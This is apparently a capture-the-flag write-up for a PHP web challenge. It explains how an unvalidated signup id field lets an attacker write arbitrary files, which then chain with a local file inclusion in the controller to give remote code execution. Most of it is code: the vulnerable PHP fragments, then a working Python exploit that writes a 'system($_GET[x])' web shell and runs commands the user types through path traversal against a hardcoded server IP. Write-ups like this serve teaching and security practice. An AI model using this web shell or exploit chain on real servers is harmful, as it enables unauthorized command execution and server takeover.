 ```php
    // /var/www/html/index.php
?>
```
This is code of index.php and controller.lib.php. In the index.php, It takes parameters and passes them to the Controller constructor. An LFI vulnerability exists in the process() method of Controller. If we can create arbitrary php files on the server we can trigger RCE.

```php
    function save_user_id($id, $pw){
        chdir('../');
        file_put_contents("dbs/{$id}", serialize($pw));
    }

    // /var/www/html/lib/util.lib.php
```
A vulnerability exists in the save_user_id() function that can create arbitrary files. Also, this function is fired when registering as a member. And the file creation path is under /var/www/html/dbs/

```php
<?php if(!defined('__MAIN__')) die('Access denied'); ?>

<?php
    $id = $_POST['id'];
    $pw = $_POST['pw'];

    if(!$id || !$pw) alert('invalid input', 'back');

    if(!is_valid_id($id)) alert('invalid id', 'back');

    if(is_exists_user($id)){
        alert('already joined', 'back');
    }

    save_user_id($id, $pw);

    alert('welcome', '/');
    // /var/www/html/pages/register.php
?>
```
We can upload the PHP file because we do not validate the user id parameter in the signup logic.

```python
import requests 
import string 
import random

CHALLURL = "http://3.37.8.189:5580"

LENGTH = 5
CONTENT = "<?php echo system($_GET['x']);?>"
string_pool = string.digits
filename = ""

for i in range(LENGTH):
    filename += random.choice(string_pool) 

FILENAME = filename + '.php'
print(f'[+] FILANAME : {FILENAME}')

requests.post(CHALLURL + "/?b=register&a=register", data={'id':FILENAME, 'pw':CONTENT})

while(1):
    payload = input("[+] Enter the command : ")
    RESULT = requests.get(CHALLURL + f'/?b=login&a=../../dbs/{filename}&x={payload}').text
```